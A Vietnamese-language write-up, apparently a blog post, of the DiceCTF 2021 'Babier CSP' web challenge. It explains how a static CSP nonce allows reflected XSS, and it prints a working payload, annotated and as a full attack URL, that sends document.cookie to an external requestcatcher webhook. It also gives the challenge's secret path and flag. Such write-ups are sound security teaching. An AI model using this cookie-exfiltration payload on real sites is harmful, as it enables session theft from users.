 ```yaml
---
title: DiceCTF 2021 | Web Writeup | Babier CSP
author:
  name: Antoine Hoang
  link: https://github.com/antoinenguyen-09
date: 2021-02-12 21:00:00 +0700
categories: [CTF, Web Challenges]
tags: [writeups, web, dicectf21]
mermaid: true
---
```


# BABIER CSP

## Thử thách:

- [Baby CSP](https://2020.justctf.team/challenges/14)  was too hard for us, try Babier CSP.

- [babier-csp.dicec.tf](https://babier-csp.dicec.tf/)

- [Admin Bot](https://us-east1-dicegang.cloudfunctions.net/ctf-2021-admin-bot?challenge=babier-csp)

- The admin will set a cookie  `secret`  equal to  `config.secret`  in index.js.

- Downloads ``index.js``

## Kiến thức nền:

- Content Security Policy (CSP).

- XSS (Cross-site scripting).

- Webhook (Reverse API).

## Giải quyết vấn đề:

### Initial reconnaissance:

Đề bài cho hai trang 1 là của client và 1 là của admin. Check thằng client trước xem sao:

![image](https://user-images.githubusercontent.com/61876488/107622961-36c3fd00-6c8b-11eb-8344-05a60fc4db10.png)

Bấm thử vào cái dòng "View Fruit" liên tục thì nó hiện ra tên các loại Fruit:v

![image](https://user-images.githubusercontent.com/61876488/107623162-80ace300-6c8b-11eb-998b-b69306aa4ab5.png)

CTRL + U rồi check source code xem:

```html
<html>
<a href='#' id=elem>View Fruit</a>
<script nonce=g+ojjmb9xLfE+3j9PsP/Ig==>
elem.onclick = () => {
location = "/?name=" + encodeURIComponent(["apple", "orange", "pineapple", "pear"][Math.floor(4 * Math.random())]);
}
</script>
</html>
```

Từ source code ta biết được trang web này sẽ random các loại Fruit bao gồm "apple", "orange", "pineapple", "pear" rồi hiển thị tên nó lên mỗi lần mình click vào dòng "View Fruit". Tên của các fruit này được truyền thông qua GET parameter "name". Thử inject một vài thứ gì đó vui vui xem nào. 

![image](https://user-images.githubusercontent.com/61876488/107624024-d46bfc00-6c8c-11eb-8ccc-7793e966d6e0.png)

Uầy!! Được luôn nè! Như vậy khả năng cao trang web này bị dính XSS rồi. Tiếp tục khai thác thôi.

### Bypassing CSP to exploiting XSS:

Vừa đúng lúc ngày hôm qua mới được học về XSS. Tuy nhiên khi check thử vài payload XSS mẫu như `<script> alert(1) </script>` (script hiện dòng cảnh báo có nội dung là "1" ở trên trang web ) thì không thấy gì cả. Check lại source code của trang web thì tôi phát hiện ra 1 điều đáng ngờ:

```html
<script nonce='g+ojjmb9xLfE+3j9PsP/Ig=='> ... </script>
```

Đây là thẻ script chứa câu lệnh để random các loại fruit rồi print ra. Thẻ này có một thuộc tính mà tôi chưa gặp bao giờ `nonce='g+ojjmb9xLfE+3j9PsP/Ig=='`. Thử research 1 chút thì tôi biết được ["nonce"](https://content-security-policy.com/nonce/) là một thuộc tính được quy định trong CSP ([Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)). Chỉ cần paste url vào [đây](https://csp-evaluator.withgoogle.com/) là chúng ta có thể đọc được toàn bộ CSP của trang web đó:

![image](https://user-images.githubusercontent.com/61876488/107743763-186e0800-6d44-11eb-814a-631d50616949.png)

Từ CSP check được ta kết luận rằng tất cả các thẻ trong HTML Document đều không bị "ruled" bởi CSP (vì directive [default-src](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/default-src) được set giá trị là "none"), chỉ có duy nhất thẻ script là bị "ruled" (vì [script-src](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src) được set giá trị là "nonce-g+ojjmb9xLfE+3j9PsP/Ig=="). Điều này có nghĩa là nếu muốn inject một thẻ script vào HTML Document của trang web này, ta phải kèm vào nó một thuộc tính nonce với giá trị là 'g+ojjmb9xLfE+3j9PsP/Ig=='. Download code javascript (NodeJS) "index.js" từ đề bài, tìm thấy dòng code set giá trị cho thuộc tính "nonce" này bằng phương thức [randombytes](https://nodejs.org/api/crypto.html#crypto_crypto_randombytes_size_callback): 

```javascript
const  NONCE = crypto.randomBytes(16).toString('base64');
```

Nhìn có vẻ như giá trị nonce này sẽ random liên tục và mỗi giá trị nonce sẽ chỉ xuất hiện 1 lần mỗi khi ta refresh lại trang (đúng theo quy tắc là thế). Nhưng bằng 1 cách magic nào đó, refresh cái trang này bao nhiêu lần nonce vẫn giữ nguyên giá trị là 'g+ojjmb9xLfE+3j9PsP/Ig=='??? Ngon quá, vậy là chỉ cần ốp nguyên cái thằng nonce này vào payload là xong hihi!

![image](https://user-images.githubusercontent.com/61876488/107749166-bb2a8480-6d4c-11eb-886e-cd13a7c47cf3.png)

Đã xong phần XSS payload. Như vậy chúng ta hoàn toàn có thể tấn công vào trang web này thông qua lỗ hổng Reflected XSS (các bạn có thể tham khảo về các vuln XSS tại [đây](https://ethical-h4ckers-club.blogspot.com/2020/10/xss-co-ban-cors-va-csp.html)). 

### Đánh cắp cookie từ trang admin:

Thông thường khi muốn đánh cắp cookie bằng XSS bạn cần host một server đóng vai trò là điểm cuối tiếp nhận request gửi đến từ trang của victim (do payload XSS đã làm thay đổi đường đi của ban đầu request, thay vì đến nơi cần đến, nó sẽ đến server do bạn host và bạn có thể tha hồ đọc nó!). Thật may mắn là tôi có tìm được một site khá tiện lợi mà đơn giản cho phép chúng ta tạo một [webhook](https://topdev.vn/blog/webhook-la-gi/) có tên là [requestcatcher](https://requestcatcher.com/). Chỉ cần gõ vài phát là bạn có ngay một cái webhook:D

![image](https://user-images.githubusercontent.com/61876488/107753501-bcf74680-6d52-11eb-89bf-18ca9ecabb71.png)

![image](https://user-images.githubusercontent.com/61876488/107753550-cda7bc80-6d52-11eb-96e9-88b683c4cb96.png)

Bây giờ chỉ cần viết lại payload dựa theo CSP đã quy định của trang web:

```html
</h1>  <!-- đóng thẻ h1 lại vì trong HTML có 1 thẻ <h1> (open) -->
<script  nonce='g+ojjmb9xLfE+3j9PsP/Ig=='>   <!-- mở thẻ script với giá trị nonce đã được quy định --> 
scrp_tag = document.createElement('script');  <!-- tạo đối tượng "thẻ script"mới tên là "scrp_tag" -->
scrp_tag.src = 'https://antoine.requestcatcher.com/? flag='.concat(JSON.stringify(document.cookie)); <!-- chỉnh attribute src của "scrp_tag" để request của admin bot được redirect đến webhook mà ta đã tạo và chứa trong đó tham số "flag" được gán bằng cookie của admin bot --> 
scrp_tag.nonce = 'g+ojjmb9xLfE+3j9PsP/Ig==' <!-- setup attribute nonce của "scrp_tag" cho phù hợp với CSP -->
contain_tag = document.querySelector("body"); <!-- tham chiếu đến thẻ body của HTML Document -->
contain_tag.appendChild(scrp_tag); <!-- thêm "scrp_tag" vào body của HTML Document để thực thi script -->
</script>
</h1>
```

Cuối cùng chúng nhúng cái payload này vào link babier-csp.dicec.tf (vì Admin chỉ evaluate một mình cái link này) bằng cách gán nó vào parameter name:

```
https://babier-csp.dicec.tf/?name=</h1><script nonce='g+ojjmb9xLfE+3j9PsP/Ig=='>scrp_tag = document.createElement('script'); scrp_tag.nonce = 'g+ojjmb9xLfE+3j9PsP/Ig=='; scrp_tag.src = 'https://antoine.requestcatcher.com/?xss='.concat(JSON.stringify(document.cookie)); contain_tag = document.querySelector("body"); contain_tag.appendChild(scrp_tag);</script></h1>
```

Well well well, hãy xem chúng ta có gì ở webhook `https://antoine.requestcatcher.com/` sau khi submit cái link đó ở Admin Bot:

![image](https://user-images.githubusercontent.com/61876488/107759051-5544f980-6d5a-11eb-8655-28f9603c037d.png)
 
Kết quả trả về ở tham số "flag" là một tham số khác có tên là "secret". Cái tên này nghe khá là quen, hình như mình gặp đâu đó rồi...Hmmm, đây rồi, ngay trong souce code "index.js":

```javascript
const  SECRET = config.secret;
 // to be continued...
app.use('/' + SECRET, express.static(__dirname + "/secret"));
```

Hằng SECRET được gán bằng "config.secret", có khả năng "config.secret" là tham số "secret". Đáng chú ý nhất là hàm [middleware](http://expressjs.com/en/guide/using-middleware.html#middleware.built-in) [express.static](https://expressjs.com/en/4x/api.html#express.static) - một hàm chuyên dùng để đọc và xử lý các nội dung tĩnh như file HTML, ảnh... Có thể tạm hiểu rằng sử dụng đường dẫn với token `4b36b1b8e47f761263796b1defd80745` trong request mà ta bắt được sẽ dẫn tới file "secret" của server:

`https://babier-csp.dicec.tf/4b36b1b8e47f761263796b1defd80745/`

Truy cập URL này ta thu được:

![image](https://user-images.githubusercontent.com/61876488/107773599-7adcfd80-6d70-11eb-8db4-00b3a14453a6.png)

Yolo!! CTRL + U rồi lấy flag thôi hehe:

> dice{web_1s_a_stat3_0f_grac3_857720}